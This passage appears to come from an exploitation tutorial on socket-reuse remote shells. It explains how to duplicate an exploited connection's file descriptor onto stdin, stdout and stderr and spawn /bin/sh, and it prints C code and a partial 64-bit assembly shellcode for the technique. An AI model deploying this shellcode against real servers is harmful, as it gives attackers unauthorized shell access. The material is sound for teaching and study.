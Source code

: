 Once we identify the file descriptor for our active connection, we can duplicate it to file descriptors 0, 1, and 2 (representing stdin, stdout, and stderr, respectively) and then spawn a shell. From that point onward, all input and output for that shell will be redirected through the socket.

Still confused? If you haven't already, it may be a good time to read "Remote Shells. Part I" to gain a better understanding of this concept.

The C code implementing this technique is as follows:

```c
int sck = dup(0) - 1; // Duplicate stdin
dup2(sck, 0);
dup2(sck, 1);
dup2(sck, 2);
execv("/bin/sh", NULL);
```

As you can see, there is no explicit socket code involved! If we convert this code into a shellcode and successfully exploit the remote server to execute it, we will gain shell access to the remote machine through the same connection we used to deliver the exploit to the remote server.

Some of you may have noticed that, as with any technique, there are drawbacks. We already mentioned that under heavy server load, our duplication trick may fail, allowing someone else to gain shell access instead. Additionally, a properly designed server will close all file descriptors before becoming a daemon (see `man daemon`), which means we may need to experiment with alternative values for the `dup` function.

This technique was brought to my attention by @_py during a discussion we had some time ago. The original code we reviewed at that time can be found here: [shellcode-881](http://shell-storm.org/shellcode/files/shellcode-881.php). However, that code is written for 32-bit systems. Therefore, I created my own version for 64-bit systems and even developed a Perl script to run the exploit.

The 64-bit Version of the Shellcode:

I must admit that I'm not particularly proud of it (as it reminded me how rusty my assembly language skills have become), but it works. Furthermore, it is only three bytes longer than the original 32-bit version. Here it is:

```assembly
section .text
global _start
_start:
    ; s = Dup(0) - 1
    xor rax, rax
    push rax
    push rax
    push rax
    pop rsi
    pop rdx
    push rax
    pop rdi
    mov al, 32
    syscall ; DUP (rax=32) rdi = 0 (dup(0))

    dec rax
    push rax
    pop rdi ; mov rdi, rax ; dec rdi

    ; dup2(s, 0); dup2(s, 1); dup2(s, 2)
loop:
    mov al, 33
    syscall ; DUP2 (rax=33) rdi=oldfd (socket) rsi=newfd
    inc rsi
    mov rax, rsi
    cmp al, 2 ; Loop 0, 1, 2 (stdin, stdout, stderr)
    jne loop

    ; exec(/bin/sh)
```